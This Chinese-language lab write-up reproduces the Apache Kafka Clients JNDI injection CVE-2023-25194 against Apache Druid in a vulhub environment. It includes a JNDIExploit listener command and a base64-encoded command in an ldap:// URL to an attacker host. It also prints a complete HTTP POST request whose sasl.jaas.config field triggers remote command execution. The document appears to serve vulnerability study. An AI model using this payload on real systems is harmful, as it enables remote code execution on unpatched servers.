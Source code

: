 # 原创
：  Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194) vulhub复现

# Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194) vulhub复现

**Apache Kafka Clients JNDI注入漏洞 (CVE-2023-25194)**

Apache Kafka是一个开源分布式消息队列，Kafka clients是相对应的Java客户端。

在版本3.3.2及以前，Apache Kafka clients中存在一处JNDI注入漏洞。如果攻击者在连接的时候可以控制属性`sasl.jaas.config`的值为`com.sun.security.auth.module.JndiLoginModule`，则可以发起JNDI连接，进而导致JNDI注入漏洞，执行任意命令。

**漏洞复现**<br/> 靶机Ubuntu：192.168.126.128<br/> 攻击机kali：192.168.126.130

`cd vulhub/`

`cd kafka/`

`cd CVE-2023-25194/`

`docker-compose up -d`

访问`http://your-ip:8888`即可查看到Apache Druid主页。

**攻击准备**

启动kali：192.168.126.130

JNDIExploit下载：`https://github.com/WhiteHSBG/JNDIExploit/releases/tag/v1.4`

1.开启JNDIExpolit监听：`java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.126.130`

2.使用`ldap://roguo-jndi-server:1389/Basic/Command/Base64/[base64_encoded_cmd]`进行攻击

要执行的命令`touch /tmp/lm_hacker`base64编码后为dG91Y2ggL3RtcC9sbV9oYWNrZXI=

构造payload：`ldap://192.168.126.130:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9sbV9oYWNrZXI=`

3.启动burpsuite抓包

构造并将payload放入如下请求：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.126.128:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://192.168.126.130:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9sbV9oYWNrZXI=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}

```

发送数据包，回到靶机，进入漏洞目录下`docker-compose exec web bash`

可以看到lm_hacker文件被成功创建(hacker是测试过的)

